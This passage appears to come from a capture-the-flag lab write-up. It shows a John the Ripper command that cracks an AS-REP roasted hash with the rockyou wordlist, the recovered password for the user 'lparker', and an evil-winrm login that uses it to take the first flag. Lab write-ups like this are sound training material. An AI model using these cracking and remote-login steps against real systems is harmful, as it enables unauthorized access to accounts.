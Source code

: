 Trying to crack the hash with John The Ripper we will obtain the `lparker` password:

{% code overflow="wrap" %}
```bash
john hashes.asreproast --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (708).png" alt=""><figcaption></figcaption></figure>

`lparker` <--> `!!abbylvzsvs2k6!`



Remote login using `evil-winrm` and obtain the first flag:

```bash
evil-winrm -i fusion.corp -u lparker -p '!!abbylvzsvs2k6!'
```

<figure><img src="../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>
